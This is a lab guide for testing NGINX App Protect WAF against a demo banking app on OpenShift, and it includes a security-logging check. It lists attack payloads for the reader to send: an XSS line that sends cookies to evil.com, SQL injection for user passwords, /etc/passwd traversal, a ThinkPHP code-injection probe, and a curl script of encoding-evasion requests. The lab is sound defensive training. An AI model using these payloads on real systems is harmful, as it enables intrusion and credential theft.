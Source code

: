 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Open the Arcadia Financial webpage in your browser.

[source,sh,role=execute]
----
echo "http://$nginx_ingress"
----

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,html]
----
<html><head><title>Request Rejected</title></head><body>The requested URL was rejected. Please consult with your administrator.
<br><br>Your support ID is: 2246109708976899297<br><br><a href='javascript:history.back();'>
[Go Back]</a></body></html>
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:image19.png[image]

. Feel free to execute any attacks you would like and observe the
results.

Congratulations on securing your application!

*Here are some optional attacks you can try (Optional)*

[NOTE]
.Note
====
Execute the attack by appending the following string:
`?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+` to the end of
the application URL.
====

* SQL Injection - 
  `GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+`
* Remote File Include - 
  `GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch`
* Command Execution - 
  `GET /?hfsagrs=%2Fproc%2Fself%2Fenviron`
* HTTP Parser Attack - 
  `GET /?XDEBUG_SESSION_START=phpstorm`
* Predictable Resource Location Path Traversal - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`
* Cross-Site Scripting - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+`
* Information Leakage - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw`
* HTTP Parser Attack Forceful Browsing - 
  `GET /dana-na/auth/url_default/welcome.cgi`
* Non-browser Client, Abuse of Functionality, Server Side Code
  Injection, HTTP Parser Attack - 
  `GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP`
* Cross-Site Scripting - 
  `GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n`

*and many more from the bash script below (Just for your information)*

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,bash]
----
#!/bin/bash
echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"

# Send a request with multiple decoding
curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with Apache whitespace
curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with IIS backslashes
curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"

# Send a request with carriage return escaping
curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload
curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"
----

=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

. Get the local syslog server POD.
+
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----
+
. Examine the logging matching the support ID of the attack.
+
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc exec -it pod/syslog-bb47bd798-mhh64 -- cat /var/log/messages | grep 7175144470433567675
----

Where `pod/syslog-bb47bd798-mhh64` is the name of the pod and container
where the syslog server is running. `7175144470433567675` is the support ID
of the attack.

Example:

image:image13.png[image]

Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in Kubernetes and how to use the NGINX App
Protect WAF to protect your applications from attacks.

